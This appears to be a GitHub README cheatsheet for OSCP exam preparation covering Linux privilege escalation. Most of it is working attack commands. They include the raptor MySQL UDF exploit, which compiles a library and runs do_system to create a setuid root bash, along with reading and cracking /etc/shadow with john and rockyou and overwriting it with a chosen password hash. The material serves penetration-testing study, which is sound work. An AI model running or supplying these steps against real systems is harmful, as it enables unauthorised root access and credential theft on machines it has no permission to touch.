 # oscp-cheatsheet

## Linux Privilege Escalation

### Serice Exploit - MySQL UDF Exploit
```
https://www.exploit-db.com/exploits/1518

ps aux | grep mysql
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root
use mysql;
Select * from mysql.func;  #to list the user defined functions
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
/tmp/rootbash -p
```
#### Weak File Permission - /etc/shadow Readable
```
ls -la /etc/shadow            #to view the permission of /etc/shadow
cat /etc/shadow               #to view the shadow file
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
su root                       #login with cracked password 'password123'
whoami;id;pwd
```
#### weak File Permission - /etc/shadow Writable
```
ls -la /etc/shadow
mkpasswd -m sha-512 bala123
nano /etc/shadow
su root                           #login with custom password 'bala123123'
whoami;id;pwd
```
### Sudo Shell Escape Sequences

[GTFOBins](https://gtfobins.github.io/)
